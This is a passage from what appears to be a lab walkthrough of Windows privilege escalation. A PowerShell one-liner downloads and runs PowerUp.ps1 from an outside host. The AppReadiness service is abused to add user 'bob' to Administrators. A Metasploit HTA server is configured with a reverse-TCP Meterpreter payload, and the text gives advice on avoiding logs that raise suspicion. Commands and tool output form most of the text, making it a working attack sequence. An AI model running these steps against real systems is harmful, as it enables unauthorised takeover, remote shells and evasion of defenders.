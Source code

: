 `sessions`, `sessions -i 1`, `load powershell`, `powershell_shell`.

To scan the host in order to find its privilege escalation vulnerabilities: `iex (New-Object Net.WebClient).DownloadString('http://10.10.22.6/PowerUp.ps1')`, `Invoke-AllChecks`:
```
ServiceName   : AppReadiness
Path          : C:\Windows\System32\svchost.exe -k AppReadiness
StartName     : LocalSystem
AbuseFunction : Invoke-ServiceAbuse -Name 'AppReadiness' ←
CanRestart    : True
Name          : AppReadiness
Check         : Modifiable Services

UnattendPath : C:\Windows\Panther\Unattend.xml
Name         : C:\Windows\Panther\Unattend.xml
Check        : Unattended Install Files
```

To abuse the "AppReadiness" Windows service in order to add the current user in the "Administrators" group:`Invoke-ServiceAbuse -Name 'AppReadiness' -Command "net localgroup administrators bob /add"`:
```
ServiceAbused                                               Command
-------------                                               -------
AppReadiness                                                net localgroup administrators bob /add ←
```

`net localgroup administrator`:
```
net localgroup administrators
Alias name     administrators
Comment        Administrators have complete and unrestricted access to the computer/domain

Members

-------------------------------------------------------------------------------
Administrator
bob ←
The command completed successfully.
```

**Step 8B**.

But the preceding operation will generate many logs that could trigger doubt.

It is always a good idea to not touch the target machine settings and disk to achieve the goal.
In this case, we only want to escalate the privilege by abusing the "AppReadiness" service.
We can execute HTML Application (HTA) exploits and gain a new Meterpreter session. 

`background`, `search hta`, `use exploit/windows/misc/hta_server`, `unset PAYLOAD`, `set PAYLOAD windows/x64/meterpreter/reverse_tcp`, `show options`, `set LPORT 443`, `info`:
```
Description:
  This module hosts an HTML Application (HTA) that when opened will 
  run a payload via Powershell. When a user navigates to the HTA file 
  they will be prompted by IE twice before the payload is executed.
```
`set TARGET 1`, `exploit`:
```
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.

[*] Started reverse TCP handler on 10.10.23.6:443 
[*] Using URL: http://0.0.0.0:8080/D25qjYF2.hta
[*] Local IP: http://10.10.23.6:8080/D25qjYF2.hta
[*] Server started.
```
